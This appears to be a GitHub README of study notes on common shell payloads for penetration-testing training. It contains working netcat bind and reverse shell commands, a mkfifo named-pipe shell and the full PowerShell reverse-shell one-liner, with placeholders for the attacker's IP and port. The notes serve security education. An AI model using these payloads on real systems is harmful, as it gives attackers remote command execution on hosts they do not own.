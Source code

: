 <h1>$${\color{red}Common} \space {\color{Goldenrod}Shell } \space {\color{blue}Payloads}\space$$</h1>

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

*************

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a <kbd>***bindshell***</kbd>, so we'll start with that. In some versions of netcat (including the ```nc.exe``` Windows version included with Kali at ```/usr/share/windows-resources/binaries``` , and the version used in Kali itself: ```netcat-traditional``` ) there is a ```-e```  option which allows you to execute a process on connection. ***For example***, as a listener:

```
nc -lvnp <PORT> -e /bin/bash
```
<br>

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with ```nc <LOCAL-IP> <PORT> -e /bin/bash```  would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a <kbd>***bind shell***</kbd> :

```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
<br>

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at ```/tmp/f``` . It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into ```sh``` , sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


A very similar command can be used to send a netcat reverse shell:

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/be8dfce0-fa3f-4544-8036-d3f08de60718">
</p>

**************************

- When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


> In order to use this, we need to replace ```"<IP>" and "<port>"``` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/0ea80241-ea69-415a-a3b4-859605370179">
</p>


<br>

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;)

